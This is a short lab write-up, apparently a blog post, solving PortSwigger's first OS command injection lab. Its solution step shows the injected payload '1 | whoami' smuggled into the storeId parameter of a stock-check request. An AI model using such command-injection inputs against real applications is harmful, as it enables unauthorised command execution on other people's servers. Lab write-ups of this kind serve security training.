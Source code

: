 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 1"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Lab 1 - OS Command Injection - Simple Case
><b>Lab Objective:</b>
<br/><br/>
This lab contains an OS command injection vulnerability in the product stock checker.
The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.
To solve the lab, execute the whoami command to determine the name of the current user.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-simple">Port Swigger - Lab 1</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308204">Rana Khalil - Lab 1</a>
<br/>



### Solution
<hr/>

#### 1. Take note of all possible endpoint calls that accepts user input from the UI:

```
GET /product?productId=1
```
```
POST /product/stock 
body: productId=1&storeId=1
```

#### 2. Append | whoami to POST  /product/stock    storeId parameter

```
product=1&storeId = 1 | whoami
```
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/lab1/command_injection_lab_1_response.png)

<hr/>